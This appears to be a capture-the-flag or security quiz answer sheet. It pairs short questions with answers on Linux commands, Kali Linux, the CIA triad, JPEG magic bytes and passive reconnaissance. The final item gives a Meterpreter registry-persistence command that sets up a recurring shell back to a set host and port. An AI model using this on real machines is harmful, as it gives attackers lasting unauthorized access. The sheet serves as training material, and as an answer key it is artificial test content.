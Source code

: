 ## remove

```tex
I need to remove a file called secret in my home directory. which command should i use 
```
rm ~/secret

## Distribution

```tex
Debian-based distribution with a collection of security and forensics tools. It features timely security updates, support for the ARM architecture
```
kalilinux

## security model

```tex
is a model designed to guide policies for information security within an organization
```
cia

## JPG Magic

```tex
You are doing some file analysis and you need to verify the magic byte of JPEG image
Do you know the first 2 bytes of JPEG format 
```
FF D8

## Silent Look

```tex
Gathering as much information as possible without establishing contact between the pen tester and the target which you are collecting information.
```
Passive Information Gathering

## Persistence

```tex
You want to achieve persistence using Meterpreter’s persistence module by creating an autorun registry file and getting a shell automatically every time the user restarts the PC

Persistence options 
   * Minutes after restarting the system: 7 
   * Your Local port: 1337
   * Your local host IP: 192.168.0.177
```
run exploit/windows/local/registry_persistence SLEEP_TIME=420 LPORT=1337 LHOST=192.168.0.177